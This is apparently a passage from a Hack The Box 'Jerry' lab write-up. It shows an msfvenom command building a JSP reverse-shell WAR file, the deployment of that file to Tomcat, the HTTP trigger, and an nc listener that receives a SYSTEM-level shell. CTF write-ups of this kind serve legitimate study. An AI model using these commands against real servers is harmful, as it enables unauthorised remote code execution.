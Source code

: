 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.13 LPORT=1111 -f war > rev.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

It's basically just a jsp webshell in a zip file with required directory name and `web.xml` config file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ unzip -l rev.war
Archive:  rev.war
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2023-09-26 20:57   WEB-INF/
      265  2023-09-26 20:57   WEB-INF/web.xml
     1497  2023-09-26 20:57   pzmsvuuktltroj.jsp
---------                     -------
     1762                     3 files
```

Upload and deploy the application

![](/assets/obsidian/502541a22dc29fbe79f11f99329f8824.png)

This pops up

![](/assets/obsidian/b8b4e94cb4eb05db5f38df069b5552be.png)

Then trigger it

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ http http://jerry.htb:8080/rev/
HTTP/1.1 200 OK
Content-Length: 6
Content-Type: text/html;charset=ISO-8859-1
Date: Tue, 26 Sep 2023 20:00:30 GMT
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=90DCDD646CF55F0C90E3D667240C2884; Path=/rev; HttpOnly
```

Wow... it's system already

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ rlwrap -cAr nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.136.9] 49196
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```